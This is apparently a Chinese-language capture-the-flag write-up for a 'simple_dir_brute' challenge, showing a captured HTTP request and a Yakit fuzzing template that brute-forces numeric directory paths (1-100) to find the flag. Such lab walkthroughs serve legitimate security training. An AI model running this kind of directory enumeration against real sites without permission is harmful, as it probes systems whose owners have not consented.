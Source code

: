 # simple_dir_brute

访问网页，如下内容

![image-20251030133959892](assets/image-20251030133959892.png)

自动跳转 `IP:PORT/0/0/not-here.txt` 路径并显示 `where is flag?`

这题是目录爆破 ~~*（范围 **1-100**）*~~

使用 bp 抓个请求包先

```http
GET /0/0/ HTTP/1.1
Host: IP:PORT
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

成功爆破

![image-20251030134815518](assets/image-20251030134815518.png)

yakit 爆破请求包

```
GET /{{int(1-100)}}/{{int(1-100)}}/ HTTP/1.1
Host: IP:PORT
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```


爆破目录，然后得到 flag

